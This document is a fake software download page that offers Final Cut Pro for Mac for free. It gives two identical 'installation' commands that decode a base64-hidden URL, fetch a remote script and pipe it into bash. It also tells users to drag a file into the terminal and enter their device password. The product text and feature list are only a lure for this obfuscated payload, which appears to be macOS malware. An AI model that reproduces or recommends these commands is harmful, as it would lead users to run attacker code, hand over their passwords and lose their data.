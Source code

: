 # Final Cut Pro for Mac Download - Professional Video Editing Software

![Final Cut Pro Screenshot 1](https://cdn.cultofmac.com/wp-content/uploads/2024/05/Apple-Final-Cut-Pro-for-Mac-10-8-Enhance-Light-and-Color-240507.jpg)

---

### 🔽 Download Final Cut Pro for Mac

> 📥 Open the terminal on your device and paste the command below.
> 👇 Instructions are located below after the "Key Features & Benefits" block
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
---

## What is Final Cut Pro for Mac?

Final Cut Pro is a professional-grade video editing software designed exclusively for macOS. It offers powerful tools for editing, color grading, and audio mixing, making it the perfect choice for filmmakers, YouTubers, and content creators. With its intuitive interface and advanced features, Final Cut Pro simplifies complex editing tasks while delivering studio-quality results.

Unlike other video editors, Final Cut Pro features a magnetic timeline that makes editing faster and more flexible. It supports modern formats like 4K and HDR, and is optimized for Apple Silicon (M1/M2 chips) for blazing-fast performance. Whether you're working on short films, documentaries, or commercial projects, Final Cut Pro provides everything you need to bring your vision to life.

With built-in effects, transitions, and titles, plus seamless integration with Motion and Compressor, Final Cut Pro offers a complete post-production solution right at your fingertips.

![Final Cut Pro Screenshot 2](https://help.apple.com/assets/673BE5C0E115654F7F097772/673BE5C41BAE7922D30F2CE1/en_US/9e45a1d009f0438b1a8774dbf5fbaa12.png)

---

## Key Features & Benefits

- 🎬 Professional-grade video editing tools  
- ⚡ Optimized for Apple Silicon (M1/M2)  
- 🖥️ Supports 4K, HDR, and ProRes formats  
- 🧲 Magnetic timeline for intuitive editing  
- 🎨 Advanced color grading and audio mixing  
- 💻 Perfect for professionals and enthusiasts  

Whether you're editing vlogs, feature films, or corporate videos, Final Cut Pro delivers unmatched performance and creative freedom.

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🔍 Keywords

